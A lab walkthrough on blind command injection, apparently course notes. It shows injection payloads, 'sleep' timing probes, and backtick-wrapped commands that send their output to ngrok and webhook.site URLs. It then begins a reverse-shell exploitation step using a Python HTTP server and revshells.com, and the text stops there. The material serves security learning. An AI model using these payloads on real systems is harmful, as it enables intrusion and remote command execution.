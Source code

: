 
## **Overview**

This vulnerability do not provide immediate or direct feedback to the attacker about the success or failure of their malicious actions. In other words, the attacker is "blind" to the results of their actions because they do not receive immediate feedback or error messages that would typically indicate whether their attack was successful or not.


## **Practicals**

### **Enumeration**

#### **Using Ngrok**

- Testing out our first payload `127.0.0.1; ls #` we can see that our `;` is been filtered out and we don't have results 


![](https://i.imgur.com/Ke3g2zP.png)


- Start up `Ngrok` with 

```bash
$ ngrok http 80
```

- Navigate back to our website and paste in your **ngrok** link

![](https://i.imgur.com/uso5sve.png)

- Now copy your ngrok link again, navigate to our website and paste in the link in the **Network check** bar as follow and click submit:

```
https://14f0-2c0f-f5c0-600-338b-fc7-aa19-f5d5-d3a.ngrok-free.app?`COMMAND-GOES-HERE`
```

![](https://i.imgur.com/LnDUrOf.png)

- Navigate to the web interface of `ngrok` and our command should have been executed

![](https://i.imgur.com/wjpLyvn.png)


![](https://i.imgur.com/9hBTOMo.png)

#### **Using sleep**

**Note :** we can also use the the `sleep` command to check if we have blind Command injection
  
```HTML
# web-app will sleep for 10 seconds
https://tcm-sec.com?`sleep 10`

# web-app will sleep for 25 seconds
https://tcm-sec.com?`sleep 25`
```


**_Web app will sleep for 50 seconds_**


![](https://i.imgur.com/wGi2LjV.png)



#### **Using webhook.site**

- navigate to [https://webhook.site](https://webhook.site)
- Copy your **Unique URL**

![](https://i.imgur.com/VH4EBGc.png)

- Paste as follow to the website

```
https://webhook.site/22162abb-7ad5-4f92-8410-c57c37baad72?`COMMAND-GOES-HERE`
```


![](https://i.imgur.com/1KTjvSG.png)

- Navigating back to [webhook.site](https://webhook.site) we have `www-data`

![](https://i.imgur.com/bkceoUk.png)

> **Note :** After each URL always add a question mark (?) and back tick (``), Don't Forget !!



### **Exploitation**

- Start up a python server

```bash
$ python3 -m http.server 80
```

- Use **Wappalyzer** to check for web technology , so we can determine our reverse shell type, In my case it is `PHP`

![](https://i.imgur.com/Ju3RG9F.png)


Navigate to [revshells.com](https://revshells.com) 